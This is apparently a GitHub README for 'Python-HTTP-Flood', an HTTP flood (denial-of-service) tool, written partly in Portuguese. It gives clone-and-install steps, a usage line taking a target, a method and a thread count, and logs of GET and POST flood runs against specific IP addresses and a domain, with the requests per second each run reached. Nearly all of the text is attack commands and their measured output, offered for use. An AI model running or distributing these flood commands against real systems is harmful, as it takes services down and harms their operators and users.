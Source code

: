 # Python-HTTP-Flood

## Install
```sh
git clone https://github.com/e43b/Python-HTTP-Flood/
cd Python-HTTP-Flood
pip install -r requirements.txt  
```

## Usage 
```sh
python main.py <target> <GET/POST> <threads>
example: python main.py http://51.159.30.249 POST 1500
```

Pc usado para rodar o script é uma máqiquina virtual com 1 nucleo e 2gb de ram

## Testes na pática `POST`
https://dstat.cc/l7?id=MULTACOM-CORPORATION
![MULTACOM-CORPORATION](dstat/142post.png)
`python main.py http://142.171.195.145/HIT POST 500`
### Requisições por segundo
máxima: 1500
media: 1000

https://dstat.cc/l7ssl?id=FDCservers-1
![FDCservers-1](dstat/nodecpost.png)
`python main.py https://nodec.mediathektv.com POST 700`
### Requisições por segundo
máxima: 2800
media: 1500

## Testes na pática `GET`
https://dstat.cc/l7?id=MULTACOM-CORPORATION
![MULTACOM-CORPORATION](dstat/142get.png)
`python main.py http://142.171.195.145/HIT GET 500`
### Requisições por segundo
máxima: 3000
media: 1000

https://dstat.cc/l7ssl?id=FDCservers-1
![FDCservers-1](dstat/nodecget.png)
`python main.py https://nodec.mediathektv.com GET 700`
### Requisições por segundo
máxima: 2200
media: 1500
